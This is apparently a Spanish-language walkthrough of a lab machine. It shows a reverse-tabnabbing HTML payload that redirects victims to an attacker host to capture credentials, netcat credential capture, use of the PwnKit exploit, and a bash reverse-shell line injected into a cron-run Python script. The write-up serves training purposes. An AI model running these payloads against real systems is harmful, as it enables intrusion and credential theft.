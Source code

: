 ## (Intento de CSRF, vulnerabilidad target blank en el código fuente de la web, recibir password con netcat, urlencodear password recibida con burpsuite, conectarse por ssh, ejecutar linux-exploit-suggester y vulnerabilidad pwnkit)

Haremos los reconocimientos de nmap y vemos el puerto 80 y 22 abiertos:
![[Pasted image 20230423173949.png]]
Esta es la página web:
![[Pasted image 20230423174147.png]]
![[Pasted image 20230423174212.png]]
Vamos a probar en registrarnos con el usuario mario y la contraseña 123123:
![[Pasted image 20230423174408.png]]
Y tenemos esta página:
![[Pasted image 20230423174429.png]]
En este punto interceptamos la petición con burpsuite en el punto de cambiar la contraseña y convertimos la petición a GET:
![[Pasted image 20230423174731.png]]
Y si ponemos esto mismo en el navegador de esta forma también se va a cambiar la contraseña:
![[Pasted image 20230423174835.png]]
Pero vemos que no funciona, por lo que a simple vista no es vulnerable a [[MAQUINA SECNOTES (SQL Injection, CSRF (Cross-site request forgery), detectar usuarios válidos con wfuzz, netcat en windows, php malicioso y escalar privilegios en máquina Windows con subsistema de Linux instalado a través de ejecutar un bash.exe)]]. Por lo que vamos a buscar otros métodos. Por lo que vamos a probar en poner un link en el campo de input:
![[Pasted image 20230423175717.png]]
Damos a submit y ahora miramos el código fuente de la página:
![[Pasted image 20230423175743.png]]
Y en el código fuente vemos que en la parte de target pone blank, lo cual es una vulnerabilidad:
![[Pasted image 20230423175837.png]]
Y si buscamos en google nos confirman que se trata de una vulnerabilidad y aquí tenemos esta web que nos explica como explotar esta vulnerabilidad:
![[Pasted image 20230423175934.png]]
Nos dicen que primero tenemos que crear un documento html que podremos llamar por ejemplo payload.html:
```html
<html>
<script>
        if (window.opener) window.opener.parent.location.replace("http://192.168.0.19:443/index.html");
        if (window.parent != window) window.opener.parent.location.replace("http://192.168.0.19:443/index.html");
</script>
</html>
```
![[Pasted image 20230423182649.png]]
Y luego vamos a crear otro llamado index.html que tenga el código fuente de la página
![[Pasted image 20230423182718.png]]
Pegamos todo esto en el index.html:
![[Pasted image 20230423182758.png]]
Tenemos ambos archivos creados:
![[Pasted image 20230423182817.png]]
Por tanto, una vez con todo esto hecho, vamos a crear uns ervidor web con python alojando estos dos archivos:
![[Pasted image 20230423182850.png]]
Y ahora dentro de la web, simplemente tenemos que llamar a este servidor web de python al archivo payload.html de la siguiente manera, poniendo 
```html
	http://192.168.0.19:80/payload.html
```
![[Pasted image 20230423183041.png]]
Nos pondremos en el escucha también con netcat:
![[Pasted image 20230423183110.png]]
Y ahora le damos clic a submit y habremos recibido por netcat las credenciales del usuario:
![[Pasted image 20230423183235.png]]
Tenemos estas credenciales: 
```python
username=daniel

password=C%40ughtm3napping123
```
Vimos que teníamos abierto el puerto ssh, el puerto 22, por lo que vamos a probar en poner estas credenciales, pero veremos que no funcionan:
![[Pasted image 20230423183749.png]]
Por lo que es posible que esta password venga codificada de alguna manera, por lo que vamos a abrir burpsuite para corregir esto,  ya que viene url-encodeada; y vemos que ahora la password es C@ughtm3napping123:
![[Pasted image 20230423183927.png]]
Probamos esta contraseña por ssh y vemos que ya funciona:
![[Pasted image 20230423184048.png]]
Llegados a este punto, tenemos dos formas de escalar los privilegios, o bien con la herramienta linux-exploit-suggester ejecutándolo todo desde el usuario Daniel o bien modificando un archivo .py dentro del directorio del usuario adrián para mandarnos una reverse shell y escalar los privilegios con VIM:
## ESCALADA 1
Una vez dentro, podemos utilizar una herramienta que se llama linux exploit suggester [[1 - Linux Exploit Suggester]] que nos hará un análisis automatizado buscando vulnerabilidades; y encontramos una en la versión de sudo:
![[Pasted image 20230227133025.png]]
Nos lo clonamos dentro de la máquina víctima y lo ejecutamos, donde veremos que probablemente es vulnerable a la vulnerabilidad CVE-2021-3156:
![[Pasted image 20230423185958.png]]
Podemos confirmar que esto es vulnerable con el comando sudo -V, para ver la versión de sudo:
![[Pasted image 20230423190026.png]]
Tenemos este repositorio de github donde se nos muestra cómo explotar esta vulnerabilidad, donde además vemos que en el ejemplo que se nos pone en este repositorio la máquina víctima tiene la misma versión de sudo que la nuestra:
![[Pasted image 20230423190237.png]]
![[Pasted image 20230423190300.png]]
Pero cuando ejecutamos este exploit vemos que no funciona:
![[Pasted image 20230423190736.png]]
Por lo que volvemos a mirar por más vulnerabilidades de la herramienta linux-exploit-suggester:
![[Pasted image 20230423190825.png]]
Si buscamos herramientas para explotar esta vulnerabilidad, encontramos esta de github:
![[Pasted image 20230423190852.png]]
Y tenemos un proof of concept que nos explica como explotar esto mismo, donde vemos que simplemente tenemos que ejecutar el comando make y luego el exploit que se nos genera para convertirnos en root:
![[Pasted image 20230423190938.png]]
![[Pasted image 20230423191005.png]]
Esto nos habrá generado un archivo llamado cve-2021-4034, el cual simplemente tenemos que ejecutarlo y ya somos root:
![[Pasted image 20230423191045.png]]
Vemos que en el directorio de root tenemos un archivo llamado nap.py, el cual contiene unas credenciales de la base de datos mysql:
![[Pasted image 20230423191500.png]]
Por tanto nos conectamos a esta base de datos con estas credenciales y estamos dentro:
![[Pasted image 20230423191545.png]]
Y aquí encontramos las credenciales que haya dentro de la base de datos, aunque nos encontramos con nosotros mismos, que podríamos crackear nuestra password con john the ripper fácilmente ya que nuestra password era password1
![[Pasted image 20230423191711.png]]
## ESCALADA 2
Dentro del directorio personal del usuario Adrian tenemos un archivo llamado query.py:
![[Pasted image 20230423192358.png]]
Y si vemos este código de python podemos ver que lo que hace es obtener la fecha actual del sistema y la guarda en el site_status.txt:
![[Pasted image 20230424100708.png]]
![[Pasted image 20230424100727.png]]
Entonces aquí lo que podemos hacer es añadir dentro de este fichero de python el comando para ganar una reverse shell por parte del usuario Adrian, por lo que ponemos esto:

```bash
os.system("bash -c 'bash -i >& /dev/tcp/192.168.0.19/443 0>&1'")
```

![[Pasted image 20230424100811.png]]
Y entonces ahora esperamos un minuto y habremos recibido la reverse shell:
![[Pasted image 20230424100927.png]]
Y además siendo este usuario podemos ejecutar el comando sudo -l y vemos una vulnerabilidad que nos permite ejecutar comandos como root con vim:
![[Pasted image 20230424101000.png]]
Por lo que procedemos a [[14 - Escalada de Privilegios con VIM]]:

